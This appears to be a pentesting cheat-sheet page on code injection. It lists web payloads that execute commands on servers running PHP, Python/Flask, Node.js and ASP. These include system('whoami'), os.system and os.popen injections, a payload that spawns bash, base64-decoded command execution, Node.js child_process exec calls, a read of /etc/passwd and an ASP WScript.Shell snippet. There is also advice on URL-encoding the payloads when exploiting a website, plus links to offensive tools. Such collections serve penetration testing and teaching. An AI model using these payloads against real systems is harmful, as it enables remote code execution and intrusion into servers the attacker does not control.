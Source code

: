 # Code Execution

## PHP

```php
...?arg="; system("whoami"); //       "
...?arg="; sleep(10); //       "
...?arg="."ha"."cker"."; // # Concatenate strings with the dot (.)
...?arg="./*leviswings*/" # A string between comments. If nothing comes out, it is normal, since it is commented.
...?arg=// # Use comments to see what happens.
```

## Python (Flask, etc.)

```python
...?arg="+os.system('whoami')+"
...?arg="+os.popen('whoami').read()+"
...?arg="__import__('os').system('bash')"
...?arg="+__import__('os').popen('whoami').read()+" # In case the OS module is not imported, we import it ourselves.
...?arg="+str(__import__('os').system(__import__('base64').b64decode('<BASE64 COMMAND>')))+"
```

## Node.js (Express.js)

{% hint style="info" %}
For more information about the Node.js process, you can use the functions, properties or global variables in the Node.js documentation: https://nodejs.org/api/process.html
{% endhint %}

{% hint style="danger" %}
If we are exploiting a website, the command we insert must be in URL encode, otherwise, it is very likely to give us an error.
{% endhint %}

```javascript
// fs class (list and read files):
require('fs').readdirSync('.').toString() // List actual directory
res.end(require('fs').readdirSync('.').toString())
require('fs').readdirSync('..').toString()
require("fs");fs.readdirSync("/app").toString('utf8')
require("fs").readdirSync('/etc/passwd')
require("fs");fs.readdirSync('/etc/passwd').toString('utf8')

// child_process module (command execution):
// The child_process module allows you to create child processes in Node.js. 
// There are 4 different ways to create a child process: spawn(), fork(), exec(), execFile.
require("child_process").exec('<COMMAND>') // Recordar que si hay espacios, hay que hacer un URL encode
require('child_process').execSync('<COMMAND>').toString(); // Output
(() => { return require("child_process").execSync("<COMMAND>;", { timeout: 5000 }); })(); // the timeout is to kill processes that take too long to finish
```

### Tools

We can also use `nodexp.py`, a **server-side Javascript injection** **tool** capable of detecting and exploiting Node.js vulnerabilities.

{% embed url="https://github.com/esmog/nodexp" %}

### References

[https://snyk.io/blog/5-ways-to-prevent-code-injection-in-javascript-and-node-js/](https://snyk.io/blog/5-ways-to-prevent-code-injection-in-javascript-and-node-js/)

{% embed url="https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet" %}

{% embed url="https://github.com/OWASP/NodeGoat" %}

{% embed url="https://nodegoat.herokuapp.com/tutorial" %}

## ASP

```aspnet
<%
Set objShell = CreateObject("WScript.Shell")
Set cmd = objShell.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```
